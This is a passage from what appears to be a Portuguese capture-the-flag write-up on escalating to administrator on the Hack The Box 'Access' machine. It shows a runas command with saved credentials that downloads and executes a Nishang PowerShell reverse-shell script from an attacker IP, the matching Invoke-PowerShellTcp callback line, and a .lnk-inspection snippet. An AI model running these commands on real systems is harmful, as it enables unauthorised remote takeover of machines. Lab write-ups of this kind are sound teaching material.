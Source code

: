 ### Usando runas

Iremos executar comandos como se administrador fosse

> runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.119/Invoke-PowerShellTcp.ps1')"

1. Preparar o Reverse TCP para ser usado

Irei utilizar novamente o nishang

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_nis1.png)

`Invoke-PowerShellTcp.ps1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_tcp.png)

Devemos adicionar na ultima para ele executar assim que for baixado no servidor web

> Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.119 -Port 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_tpc1.png)

2. Executando

Agora devemos ligar nosso `rlwrap nc`, nosso `python web server` e realizar o download na máquina Access

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_runas.png)

Pronto, temos acesso de Administrador ao sistema

## 2º Modo - Através do arquivo .lnk na pasta Publico

Temos outros modos de escalar privilégio através do arquivo .ink que se encontra na pasta Desktop do usuário Público

A ideia é a mesma do runas, mas aqui vemos outra maneira de se explorar isso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_lnk1.png)

Dando um `type` nele verificamos que ele da runas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_lnk.png)

Vamos reproduzir isso para ganhar um shell de root

```
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$WScript.CreateShortcut($shortcut)
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_lnk2.png)

Convertemos para base64 e `UTF-16LE`
